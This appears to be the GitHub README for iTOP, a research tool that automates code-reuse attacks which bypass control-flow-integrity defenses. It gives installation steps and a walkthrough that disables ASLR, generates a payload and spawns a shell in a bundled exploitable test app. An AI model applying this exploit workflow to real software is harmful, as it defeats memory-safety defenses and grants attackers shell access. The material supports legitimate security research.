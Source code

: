 # About
* This is the GitHub repository of the indirect transfer oriented programmig (iTOP) tool. This tool can be used for automated crafting of advanced code reuse attacks which can bypass state-of-the-art control flow integrity (CFI) policies.

# Demo Videos

* iTOP: exploit writing in ESL.
[![pic1.png](https://i.postimg.cc/6pF2ZBmX/pic1.png)](https://tinyurl.com/y6cmbvyt)

* iTOP: spawning a system shell exploit.
[![pic1.png](https://i.postimg.cc/QMW6gxNk/pic2.png)](https://tinyurl.com/y6a9gk7c)

* iTOP: spawning a system shell with no CFI policy used.
[![pic1.png](https://i.postimg.cc/9QX0qrpK/pic3.png)](https://tinyurl.com/yyvxncqj)

* iTOP: spawning a system shell with the VTint policy in-place.
[![pic1.png](https://i.postimg.cc/FFPBQ66S/pic4.png)](https://tinyurl.com/yyrso75k)


# Installation

To run iTOP, you need a python2 or pypy environment with angr and antlr4-python2-runtime installed. We recommend creating a python virtual environment. The steps to set one up with the proper packages are outlined below.

1. create python2 virtualenv using virtualenv, virtualenvwrapper, conda, pipenv, or similar::

    $ virtualenv autocoop

2. enter virtualenv & install requirements::

    source autocoop/bin/activate
    pip install -r requirements.txt

3. make sure that "." is in the $PYTHONPATH::

    export PYTHONPATH=.:$PYTHONPATH


## Running iTOP

To generate a payload with iTOP, some setup is required. To make results reproducable, ASLR has to be disabled, and the exploit generation script has to be updated with the proper base library address for your system. In a real attack, this information can be extracted using information leaks. Running the lxs script with everything configured correctly will lead to a call to 'system("/bin/sh")'.

1. disable aslr::

    $ cd exploitable_app
    $ ./disable_aslr.sh

2. run lxs::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    ...

3. update lib base address in exploit_generator.py::

    <Auto-COOP/tool/exploit_generator.py>
    ...
    config = Config("exploitable_app/nodejs/libnode.so",
                      0x7ffff7ff2000, <-- UPDATE THIS
                      0xa0000000,
                      4096,
                      )
    ...

4. generate the payload::

    $ export PYTHONPATH=.
    $ python autocoop/exploit_generator.py esl_scripts/testsuite_coop/shell.esl

5. run lxs again::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    [+] fd 3
    [+] execute w00t..
    $

6. you just spawned a shell!
